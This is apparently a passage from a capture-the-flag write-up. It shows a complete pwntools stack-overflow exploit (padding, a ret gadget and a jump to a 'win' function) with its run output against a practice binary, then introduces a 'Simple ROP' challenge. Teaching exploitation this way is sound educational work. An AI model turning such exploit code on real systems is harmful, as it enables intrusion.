 ### Final Solution

```py
from pwn import *
p = process('./chall')

elf = ELF('./chall')
rop = ROP(elf)

payload = b'A' * 72 # either do some pwntools cyclic stuff or GEF cyclic find rsp offset
payload += p64(rop.find_gadget(['ret'])[0])  # find and pick the first lone ret instruction for stack alignment
payload += p64(0x401186)  # jump to win (since this binary is not stripped, you can use elf.symbols['win'] instead of the addr)

p.sendlineafter('> ', payload) # send the payload
print(p.recvall().decode())
```

Running this we get:

```
$ python exploit.py
[+] Starting local process './chall': pid 792122
[*] '/pwn-simple-win/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loaded 5 cached gadgets for './chall'
[+] Receiving all data: Done (204B)
[*] Process './chall' stopped with exit code -11 (SIGSEGV) (pid 792122)
hey hey nice to meet ya, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x16@
just don't be snooping around my code and we'll get along fine...
:3c hmm how'd you get here?? try this on the real server to get the flag...
```

Sweet, now we can just replace the `process('./chall')` with the server using `remote('ip.addr.of.server', port)`, and you'll get the real flag.

## Simple ROP
!!! info annotate "Challenge Description"
    Prove yourself and get the job

    Provided: ./chall (1)

1. chall: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=b2442b0ca0e49a7aae3f365a97947191f76676f2, for GNU/Linux 3.2.0, stripped

This challenge is pretty similar to the last one, but with a slight twist. Since the binary is decompiled, you may need to find `entry` with Ghidra first and track down `main`. With that, you can also find the other "win" function by looking at defined strings and checking places where they've been used.

